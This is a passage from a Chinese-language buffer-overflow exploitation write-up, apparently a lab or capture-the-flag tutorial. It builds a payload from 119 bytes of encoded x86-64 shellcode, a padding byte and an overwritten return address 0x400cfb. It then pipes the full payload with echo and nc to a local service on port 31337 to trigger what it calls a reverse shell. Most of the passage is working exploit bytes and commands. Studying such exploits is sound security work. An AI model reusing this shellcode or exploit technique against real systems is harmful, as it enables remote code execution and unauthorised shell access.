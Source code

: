 ```bash
[shellcode] + [\x90] + [\xfb\x0c\x40\x00]
=> 119 + 1 + 4 

//最后结果：拼接 [\x90] 和 [\xfb\x0c\x40\x00]
\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05\xef\xff\xff\xff\x48\xbb\x27\x14\xe6\xca\x31\xf4\x33\x97\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x4d\x3d\xbe\x53\x5b\xf6\x6c\xfd\x26\x4a\xe9\xcf\x79\x63\x7b\x2e\x25\x14\xea\x30\xf1\x5c\x63\x16\x76\x5c\x6f\x2c\x5b\xe4\x69\xfd\x0d\x4c\xe9\xcf\x5b\xf7\x6d\xdf\xd8\xda\x8c\xeb\x69\xfb\x36\xe2\xd1\x7e\xdd\x92\xa8\xbc\x88\xb8\x45\x7d\x88\xe5\x42\x9c\x33\xc4\x6f\x9d\x01\x98\x66\xbc\xba\x71\x28\x11\xe6\xca\x31\xf4\x33\x97\x90\xfb\x0c\x40\x00
```

#### 3.7 测试反弹

RIP 地址变为了我们构建的：xfb\\x0c\\x40\\x00（地址 0x400cfb 会跳转到 RSP 位置）,RSP 位置放的是 120 字符长度的 shellcode

```bash
echo '\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05\xef\xff\xff\xff\x48\xbb\x27\x14\xe6\xca\x31\xf4\x33\x97\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x4d\x3d\xbe\x53\x5b\xf6\x6c\xfd\x26\x4a\xe9\xcf\x79\x63\x7b\x2e\x25\x14\xea\x30\xf1\x5c\x63\x16\x76\x5c\x6f\x2c\x5b\xe4\x69\xfd\x0d\x4c\xe9\xcf\x5b\xf7\x6d\xdf\xd8\xda\x8c\xeb\x69\xfb\x36\xe2\xd1\x7e\xdd\x92\xa8\xbc\x88\xb8\x45\x7d\x88\xe5\x42\x9c\x33\xc4\x6f\x9d\x01\x98\x66\xbc\xba\x71\x28\x11\xe6\xca\x31\xf4\x33\x97\x90\xfb\x0c\x40\x00' | nc localhost 31337
```

[![](assets/1703831476-f8e3ad05fd77c5a59b8ee6fe09f2c85f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224856-0fcadb0c-a4c7-1.png)
